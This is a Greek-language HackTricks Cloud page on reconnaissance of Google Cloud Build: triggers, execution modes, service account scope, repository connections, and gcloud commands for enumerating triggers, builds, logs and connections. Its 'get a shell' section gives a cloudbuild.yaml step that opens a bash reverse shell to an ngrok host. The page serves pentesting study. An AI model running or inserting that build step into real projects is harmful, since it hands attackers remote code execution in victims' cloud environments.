 # GCP - Αναγνώριση Cloud Build

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

Το Google Cloud Build είναι μια διαχειριζόμενη πλατφόρμα CI/CD που **αυτοματοποιεί τη διαδικασία κατασκευής λογισμικού** και την απελευθέρωσή του, ενσωματώνοντας **αποθετήρια κώδικα πηγής** και υποστηρίζοντας μια ευρεία γκάμα γλωσσών προγραμματισμού. Επιτρέπει στους προγραμματιστές να κατασκευάζουν, να δοκιμάζουν και να αναπτύσσουν κώδικα αυτόματα, παρέχοντας την ευελιξία να προσαρμόζουν τα βήματα κατασκευής και τις ροές εργασίας.

Κάθε Cloud Build Trigger σχετίζεται με ένα Cloud Repository ή συνδέεται απευθείας με ένα εξωτερικό αποθετήριο (Github, Bitbucket και Gitlab).

{% hint style="success" %}
Δεν μπόρεσα να δω κανέναν τρόπο να κλέψω το διακριτικό του Github/Bitbucket από εδώ ή από τα Cloud Repositories, επειδή όταν το αποθετήριο λήψης προσπελαύνεται μέσω ενός URL [https://source.cloud.google.com/](https://source.cloud.google.com/), και το Github δεν προσπελαύνεται από τον πελάτη.
{% endhint %}

### Γεγονότα

Το Cloud Build μπορεί να ενεργοποιηθεί αν:

* **Πατήσετε σε ένα κλαδί**: Καθορίστε το κλαδί
* **Πατήσετε ένα νέο ετικέτα**: Καθορίστε την ετικέτα
* **Αίτηση εξαγωγής (pull request)**: Καθορίστε το κλαδί που λαμβάνει την αίτηση εξαγωγής
* **Χειροκίνητη κλήση**
* **Μήνυμα Pub/Sub**: Καθορίστε το θέμα
* **Γεγονός Webhook**: Θα εκθέσει ένα URL HTTPS και η αίτηση πρέπει να εξουσιοδοτηθεί με ένα μυστικό

### Εκτέλεση

Υπάρχουν 3 επιλογές:

* Ένα yaml/json **που καθορίζει τις εντολές** προς εκτέλεση. Συνήθως: `/cloudbuild.yaml`
* Μόνο μία που μπορεί να καθοριστεί "inline" στην ιστοσελίδα κονσόλας και στο cli
* Η πιο συνηθισμένη επιλογή
* Σχετίζεται με την ανεξουσιοδότητη πρόσβαση
* Ένα **Dockerfile** για την κατασκευή
* Ένα **Buildpack** για την κατασκευή

### Δικαιώματα SA

Ο **Λογαριασμός Υπηρεσίας έχει το πεδίο `cloud-platform`**, έτσι μπορεί να **χρησιμοποιήσει όλα τα προνόμια**. Εάν **δεν καθοριστεί SA** (όπως όταν γίνεται υποβολή), θα χρησιμοποιηθεί ο **προεπιλεγμένος SA** `<proj-number>@cloudbuild.gserviceaccount.com`.

Από προεπιλογή δεν δίνονται καθόλου δικαιώματα, αλλά είναι αρκετά εύκολο να του δοθούν κάποια:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Έγκριση

Είναι δυνατόν να ρυθμιστεί ένα Cloud Build για να **απαιτεί έγκριση για την εκτέλεση της κατασκευής** (απενεργοποιημένο από προεπιλογή).

### Συνδέσεις & Αποθετήρια

Οι συνδέσεις μπορούν να δημιουργηθούν μέσω:

* **GitHub:** Θα εμφανίσει ένα παράθυρο OAuth που θα ζητά άδεια για να **λάβει ένα διακριτικό Github** που θα αποθηκευτεί μέσα στο **Secret Manager**.
* **GitHub Enterprise:** Θα ζητήσει να εγκαταστήσετε ένα **GithubApp**. Θα δημιουργηθεί και θα αποθηκευτεί σε αυτό το έργο ένα διακριτικό εξουσιοδότησης από τον κεντρικό σας διακομιστή GitHub ως μυστικό του **Secret Manager**.
* **GitLab / Enterprise:** Πρέπει να **παρέχετε το διακριτικό πρόσβασης του API και το διακριτικό πρόσβασης ανάγνωσης του API** που θα αποθηκευτούν στο **Secret Manager**.

Μόλις δημιου
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Δημιουργείται ένα κουβάς αποθήκευσης με το όνομα [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) για να αποθηκεύσει ένα αρχείο `.tgz` με τα αρχεία που θα χρησιμοποιηθούν.

### Λήψη κέλυφους
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Απαρίθμηση

Μπορείτε να βρείτε **ευαίσθητες πληροφορίες στις διαμορφώσεις και τα αρχεία καταγραφής των διαδικασιών κατασκευής**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Ανέλιξη Προνομίων

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Μη εξουσιοδοτημένη Πρόσβαση

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Μετά την Εκμετάλλευση

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΠΑΚΕΤΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
